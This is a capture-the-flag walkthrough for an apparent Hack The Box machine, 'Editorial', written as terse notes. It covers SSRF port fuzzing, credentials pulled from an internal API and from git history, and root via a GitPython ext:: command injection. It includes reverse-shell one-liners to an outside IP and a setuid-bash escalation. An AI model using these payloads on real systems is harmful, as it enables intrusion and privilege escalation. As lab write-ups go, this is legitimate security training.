 - nmap revealed http and tcp port.
	- http running nginx
- vi /etc/hosts to add editorial.htb
- tried dirbuster, dirsearch and gobuster but got nothing.
- we see a place for user input and on burp suite we catch the request.
	- can upload file but it does nothing (returns an image)
	- but we see a location to enter a url
		- so with entcat listening on a port we put our ip and port there
		- we get a response so we know it is vulnerable to server side request forgery (SSRF)
		- we enumerate the localhost port 80 to see if any local websites. we dont get much but we can brute force and check
		- send to intrude and select the IP region and use /usr/share/seclists/DNS/Discovery/Infrastructure/common http proxies wordlist.
		- we notice one response that is slightly different a returns something other than the image
		- alternatively (and also burp suite is slower for this brute force) we can use ffuf.
		- copy the request with the ip and the port number listed like this :
			```bash
127.0.0.1:FUZZ
```
		- and pass the command :
			```bash
ffuf -request ssrf.req -request-proto http -w <(seq 1 65535) -fr "jpeg" # or -fs 62 since that was the default size
```
	- we get a file which when passing file command we know its a JSON file. Can use jq to make it more readable
		```bash
cat <file_name> | jq .
```
	- this file shos different endpoints which we can try to access with our SSRF. We end up finding another file in this endpoint:
		```bash
/api/latest/metadata/messages/authors
```
	- so we added this url in our SSRF exploit :
		```bash
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```
	- we receive a file:
		- we find the credentials of dev in the output
		```bash
Username: dev
Password: dev080217_devAPI!@
```
	- can ssh into machine with this credentials and get user flag.
## Lateral Movement
- looking at the file where user flag is we see a folder apps.
	- looking into it and passing ls -al we see a hidden .git repository
	- can enumerate with git
		```bash
git status # shows some files were deleted
git logs
```
	- alternatively I read the file logs and noted a "Downgrading prod to dev"
		- i also check /etc/passwd for prod and see he is a user.
		- furthermore since sudo -l didnt work maybe this prod user could have something we could run as root to get root access
	- pased git sho on the commit id in the log to see what was changed and from there we find prods credentials were deleted.
		```bash
Username: prod
Password: 080217_Producti0n_2023!@
```

- logging into prod with su, we check sudo -l to see there is a command we could run:
	```bash
/usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
	- we also see the env_reset and secure path has been set so the user is quite secure
- we read the file clone_prod_change.py:
	```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```
	- we see the intput argument to pass some command.
		- the main thing to catch is 
			```python
from git import Repo
```
	- on checking for exploits we find one with the following exploit:

	```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```
	- we see that when 'ext::sh -c' is passed we can  get some kind of RCE.
		- on passing this command as an argument we find that it created /tmp/pwned file showing that this is being exploited. I didn't do this but you can do to test.
		- we attempt to input our IP and port to get a reverse shell. 
			```bash
echo "bash -i >& /dev/tcp/10.10.14.25/9998 0>&1" >/tmp/pwned
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% /tmp/pwned'
```
	- while i listened on the port
	- **alternatively you can pass the command directly instead of creating /tmp/pwned**
		```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c bash% -c% "bash% -i% >&% /dev/tcp/10.10.14.25/9999% 0>&1"'
```
		- we input this command as exploit but add % wherever there is a space:
			```bash
bash -c 'bash -i >& /dev/tcp/<local_ip>/9998 0>&1'
```
	- **IPPSec Alternate**
	- we find the location of bash with which bash command and copy it to /tmp
	- we then use our exploit to give it root ownership and add a setuid bit so we can execute it.
		```bash
which bash #/usr/bin/bash
cp /usr/bin/bash /tmp
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chown% root:root% /tmp/bash'
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% 4755% /tmp/bash' # gives it the setuid bit
```
		- finally we privilege escalate with :
			```bash
/tmp/bash -p # without -p it won't give root shell as bash inbuilt security lowers privileges of setuid executables unless specified
```
	- we gain root access

-------
## Python code to brute force ports
- code:
	```python
#!/usr/bin/python3
import requests
with open("a", 'wb') as f:
f.write(b'')
for port in range(1, 65535):
with open("a", 'rb') as file:
data_post = {"bookurl": f"http://127.0.0.1:{port}"}
data_file = {"bookfile": file}
try:
r = requests.post("http://editorial.htb/upload-cover",
files=data_file, data=data_post)
if not r.text.strip().endswith('.jpeg'):
print(f"{port} --- {r.text}")
except requests.RequestException as e:
print(f"Error on port {port}: {e}")
```


## to check ipv6 address of target
- do same with ipv6 and listen to port and the response should give you the ip